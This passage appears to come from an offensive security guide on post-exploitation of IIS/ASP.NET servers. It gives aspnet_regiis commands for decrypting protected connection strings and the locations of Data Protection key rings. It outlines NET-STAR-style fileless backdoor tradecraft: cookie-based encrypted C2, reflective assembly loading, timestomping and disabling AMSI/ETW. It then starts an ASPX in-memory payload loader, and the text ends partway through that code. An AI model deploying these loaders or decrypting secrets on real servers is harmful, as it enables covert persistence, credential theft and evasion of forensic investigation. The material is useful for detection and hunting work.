 If you have filesystem or interactive access on the web server, co-located keys often allow decryption.

- ASP.NET (Full Framework) – decrypt protected config sections with aspnet_regiis:

```cmd
# Decrypt a section by app path (site configured in IIS)
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\aspnet_regiis.exe -pd "connectionStrings" -app "/MyApplication"

# Or specify the physical path (-pef/-pdf write/read to a config file under a dir)
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\aspnet_regiis.exe -pdf "connectionStrings" "C:\inetpub\wwwroot\MyApplication"
```

- ASP.NET Core – look for Data Protection key rings stored locally (XML/JSON files) under locations like:
  - %PROGRAMDATA%\Microsoft\ASP.NET\DataProtection-Keys
  - HKLM\SOFTWARE\Microsoft\ASP.NET\Core\DataProtection-Keys (registry)
  - App-managed folder (e.g., App_Data\keys or a Keys directory next to the app)

With the key ring available, an operator running in the app’s identity can instantiate an IDataProtector with the same purposes and unprotect stored secrets. Misconfigurations that store the key ring with the app files make offline decryption trivial once the host is compromised.

## IIS fileless backdoors and in-memory .NET loaders (NET-STAR style)

The Phantom Taurus/NET-STAR toolkit shows a mature pattern for fileless IIS persistence and post‑exploitation entirely inside w3wp.exe. The core ideas are broadly reusable for custom tradecraft and for detection/hunting.

Key building blocks
- ASPX bootstrapper hosting an embedded payload: a single .aspx page (e.g., OutlookEN.aspx) carries a Base64‑encoded, optionally Gzip‑compressed .NET DLL. Upon a trigger request it decodes, decompresses and reflectively loads it into the current AppDomain and invokes the main entry point (e.g., ServerRun.Run()).
- Cookie‑scoped, encrypted C2 with multi‑stage packing: tasks/results are wrapped with Gzip → AES‑ECB/PKCS7 → Base64 and moved via seemingly legitimate cookie‑heavy requests; operators used stable delimiters (e.g., "STAR") for chunking.
- Reflective .NET execution: accept arbitrary managed assemblies as Base64, load via Assembly.Load(byte[]) and pass operator args for rapid module swaps without touching disk.
- Operating in precompiled ASP.NET sites: add/manage auxiliary shells/backdoors even when the site is precompiled (e.g., dropper adds dynamic pages/handlers or leverages config handlers) – exposed by commands such as bypassPrecompiledApp, addshell, listshell, removeshell.
- Timestomping/metadata forgery: expose a changeLastModified action and timestomp on deployment (including future compilation timestamps) to hinder DFIR.
- Optional AMSI/ETW pre‑disable for loaders: a second‑stage loader can disable AMSI and ETW before calling Assembly.Load to reduce inspection of in‑memory payloads.

Minimal ASPX loader pattern
```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System" %>
<%@ Import Namespace="System.IO" %>
<%@ Import Namespace="System.IO.Compression" %>
<%@ Import Namespace="System.Reflection" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e){
    // 1) Obtain payload bytes (hard‑coded blob or from request)
    string b64 = /* hardcoded or Request["d"] */;
    byte[] blob = Convert.FromBase64String(b64);
    // optional: decrypt here if AES is used
    using(var gz = new GZipStream(new MemoryStream(blob), CompressionMode.Decompress)){
        using(var ms = new MemoryStream()){
            gz.CopyTo(ms);
            var asm = Assembly.Load(ms.ToArray());
```